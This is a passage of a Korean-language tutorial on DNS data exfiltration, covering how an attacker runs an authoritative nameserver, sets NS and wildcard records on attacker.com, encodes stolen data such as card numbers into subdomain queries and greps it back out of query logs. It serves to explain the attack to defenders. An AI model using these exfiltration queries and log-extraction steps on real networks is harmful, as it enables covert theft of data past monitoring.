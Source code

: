 3. **추적의 어려움**:
   * 대규모 네트워크에서는 수천 대의 시스템이 동시에 DNS 요청을 생성
   * 중앙 DNS 서버를 통한 요청 전달로 원래 출처 파악이 복잡해짐
   * 감염된 중간 시스템을 경유한 요청 가능성
   * 대부분의 조직에서 DNS 로그 보존 기간이 제한적

## 공격자의 권한 있는 네임서버 역할

DNS 데이터 유출과 DNS 터널링 공격에서 권한 있는 네임서버(Authoritative Nameserver)는 공격의 핵심 구성 요소로, 공격자가 제어하는 리소스입니다.

**권한 있는 네임서버 설정 프로세스**:
1. **도메인 등록**: 공격자는 합법적인 방법으로 도메인(예: `attacker.com`)을 등록합니다.
2. **네임서버 구성 옵션**:
   * 공격자가 직접 DNS 서버 운영 (완전한 제어 및 로그 접근)
   * 도메인 레지스트라가 제공하는 DNS 서비스 사용 (웹 인터페이스를 통한 관리)
   * 제3자 DNS 호스팅 서비스 이용 (CloudFlare, AWS Route53 등)

3. **DNS 레코드 설정**: 공격자는 도메인에 필요한 레코드를 설정합니다:
   ```
   # 권한 위임을 위한 NS 레코드 예시
   attacker.com.    IN    NS    ns1.attacker.com.
   attacker.com.    IN    NS    ns2.attacker.com.
   
   # 데이터 수집을 위한 와일드카드 레코드
   *.attacker.com.  IN    A     192.168.0.1
   ```

**데이터 유출 메커니즘**:
1. 내부 감염 시스템이 인코딩된 데이터를 포함한 DNS 쿼리를 전송합니다:
   ```
   stolen-credit-cards.attacker.com
   ```

2. 이 쿼리는 조직의 DNS 서버, ISP의 DNS 서버 등을 거쳐 최종적으로 DNS 계층 구조를 통해 공격자의 권한 있는 네임서버에 도달합니다.

3. 공격자의 네임서버는 이 요청을 로그에 기록하고, 응답을 반환합니다(이 응답은 크게 중요하지 않을 수 있음).

4. 공격자는 네임서버 로그를 분석하여 유출된 데이터를 추출합니다:
   ```bash
   # 로그 분석 예시
   grep "stolen" /var/log/named/queries.log | cut -d '.' -f1 > extracted_data.txt
   ```

## DNS 데이터 유출 기법

### 1. DNS 쿼리를 통한 기본 데이터 인코딩

가장 기본적인 형태의 DNS 데이터 유출은 다음과 같이 작동합니다:

```
stolen-data.attacker-controlled-domain.com
```

예를 들어, 신용카드 번호 `4111-1111-1111-1111`을 유출하려면:
```
4111-1111-1111-1111.exfil.attacker.com
```

